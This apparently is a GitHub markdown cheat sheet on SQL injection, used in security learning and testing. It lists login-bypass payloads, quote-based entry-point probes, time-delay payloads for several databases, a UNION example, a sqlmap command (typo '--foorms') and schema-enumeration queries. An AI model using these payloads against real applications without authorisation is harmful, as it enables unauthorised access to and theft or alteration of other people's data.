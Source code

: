 # SQL Injection

>An SQL injection is a security flaw that allows attackers to interfere with database queries of an application. This vulnerability can enable attackers to view, modify, or delete data they shouldn't access, including information of other users or any data the application can access. Such actions may result in permanent changes to the application's functionality or content or even compromision of the server or denial of service.

### MYSQL Conditional Statement
```sql
IF(condition,true-part,false-part) (M) 
SELECT IF(1=1,'true','false')
```

### Login Bypass payloads

This is SQL injection 101—here are some typical login tricks that you can use with form fields and parameters:

```sql
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--
```
### Entry point detection
```
 [Nothing]
'
"
`
')
")
`)
'))
"))
`))
```
### Confirming with timing
```sql
MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

PostgreSQL (only support string concat)
1' || pg_sleep(10)

MSQL
1' WAITFOR DELAY '0:0:10'

Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```


## Union Based Attacks
 When an application is vulnerable to SQL injection, and the results of the query are returned within the application's responses, you can use the UNION keyword to retrieve data from other tables within the database. This is commonly known as a SQL injection UNION attack.

 ```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```
## Testing with SQLMap
```bash
sqlmap -u <url> --foorms
```

## Finding Database structure in mysql

### Finding table name
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = 'databasename'
```
### Finding column name
```sql
SELECT table_name, column_name FROM information_schema.columns WHERE table_name = 'tablename'
```




# References
- [Port Swigger Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [Invicti](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#LineCommentAttacks)
- 
